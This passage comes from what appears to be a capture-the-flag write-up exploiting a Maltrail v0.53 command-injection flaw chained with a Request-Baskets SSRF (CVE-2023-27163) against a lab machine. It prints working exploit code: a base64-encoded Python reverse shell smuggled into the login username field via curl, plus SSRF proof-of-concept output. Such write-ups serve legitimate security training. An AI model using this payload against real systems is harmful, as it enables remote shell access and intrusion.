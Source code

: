 #### Identify

Searching for “Mailtrail exploit”, the first hit is [this
repo](https://github.com/spookier/Maltrail-v0.53-Exploit) which has an
unauthenticated code execution vulnerability in Mailtrail v0.53. The login
page doesn’t sanitize the input for the username parameter, which leads to OS
command injection.

#### Script Analysis

This script is pretty hacky, using `os.system` in Python to call `curl` to
make the request:

    
    
    def curl_cmd(my_ip, my_port, target_url):
    	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
    	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
    	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
    	os.system(command)
    

It’s a simple POST request to the given url plus `/login`.

    
    
    def main():
    	listening_IP = None
    	listening_PORT = None
    	target_URL = None
    
    	if len(sys.argv) != 4:
    		print("Error. Needs listening IP, PORT and target URL.")
    		return(-1)
    	
    	listening_IP = sys.argv[1]
    	listening_PORT = sys.argv[2]
    	target_URL = sys.argv[3] + "/login"
    	print("Running exploit on " + str(target_URL))
    	curl_cmd(listening_IP, listening_PORT, target_URL)
    

#### Exploit

To exploit this, I’ll grab the POC, but remove where it adds `/login` on line
28. I’ll get a new SSRF url that goes to `/login`:

    
    
    oxdf@hacky$ ./cve-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80/login
    Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163
    
    > Creating the "jgulua" proxy basket...
    > Basket created!
    > Accessing http://10.10.11.224:55555/jgulua now makes the server request to http://127.0.0.1:80/login.
    > Authorization: Je6HFdfIxVWIxmlDzyQWsTnB0uFGpdBAkOb8n3WniMGZ
    